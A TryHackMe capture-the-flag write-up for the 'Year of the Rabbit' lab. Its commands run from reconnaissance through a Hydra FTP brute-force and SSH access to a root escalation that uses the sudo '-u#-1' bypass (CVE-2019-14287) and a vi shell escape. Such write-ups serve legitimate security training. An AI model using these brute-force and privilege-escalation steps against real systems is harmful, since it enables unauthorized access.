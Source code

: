 # Year of the Rabbit – TryHackMe Writeup

## Overview  
**Year of the Rabbit** is categorized as an *Easy* room, but it packs several clever puzzles: steganography, FTP brute-forcing, Brainfuck decoding, and a subtle privilege escalation via a `sudo` vulnerability (CVE-2019-14287).

---

## 1. Enumeration

### Nmap Scan
```bash
nmap -sC -sV 10.201.20.145
```
**Results**:
- Port 21 – vsftpd 3.0.2 (FTP)  
- Port 22 – OpenSSH 6.7p1 (SSH)  
- Port 80 – Apache 2.4.10 (HTTP)  

---

## 2. Web Enumeration & Steganography

### Finding Hidden Directories
Use Gobuster to discover `/assets/` directory:
```bash
gobuster dir -u http://10.201.20.145 -w /usr/share/wordlists/dirb/common.txt
```

### Inspect the Stylesheet
`/assets/style.css` revealed a hint:
```css
/* Nice to see someone checking the stylesheets.
   Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

### JavaScript Redirect Trick
Accessing `/sup3r_s3cr3t_fl4g.php` redirects me via JavaScript—disable JS or view headers to capture:
```
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
```
Visiting the hidden directory reveals `Hot_Babe.png`.

---

## 3. FTP Access via Hidden Credentials

### Extracting FTP Credentials
Use:
```bash
strings Hot_Babe.png
```
This revealed:
```
ftpuser
...a long list of possible passwords...
```

### Brute-Force FTP with Hydra
```bash
hydra -l ftpuser -P passwords.txt ftp://10.201.20.145
```
I crack the password quickly.  

### Download `Eli’s_Creds.txt`
Log in with FTP and retrieve the file—its content is Brainfuck code.

---

## 4. SSH Access via Brainfuck Decoding

### Decode Brainfuck
Use an online interpreter (or local tool) to decode the Brainfuck string in `Eli’s_Creds.txt`, yielding:
```
Username: eli  
Password: <found password>
```

### SSH into the Box
```bash
ssh eli@10.201.20.145
```
Upon login, see a message:
```
Message from Root to Gwendoline:
“...Check our leet s3cr3t hiding place...”
```

---

## 5. Switching to Gwendoline

### Discover Hidden File
Search for “s3cr3t” files:
```bash
find / -iname '*s3cr3t*' 2>/dev/null
```
Inside, I find:
```
/usr/games/s3cr3t/.th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly!
```
It reveals Gwendoline’s password.  

### Switch User & Capture user.txt
```bash
su gwendoline
cd ~
cat user.txt
```

---

## 6. Privilege Escalation – Root via `sudo(vi)` Trick

### Check sudo privileges
```bash
sudo -l
```
Shows:  
```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

### Exploit `CVE-2019-14287`
By using `-u#-1`, we bypass the `!root` restriction:
```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```
Once `vi` opens, spawn a shell:
```
:!/bin/bash
```
– now a root shell.  

---

## 7. Capture Root Flag
```bash
cd /root
cat root.txt
```

---

##  Flags
- **User flag (Gwendoline):** `THM{...}`  
- **Root flag:** `THM{...}`  

*(Actual flags omitted for spoiler safety.)*

---

##  Key Lessons Learned
- CSS files may contain hidden clues—always inspect them.  
- `strings` is a powerful first step for extracting embedded credentials.  
- Brainfuck is a rare but interesting encoding; online interpreters help.  
- `sudo -u#-1` is a sneaky bypass for misconfigured `NOPASSWD` sudo privileges.

---
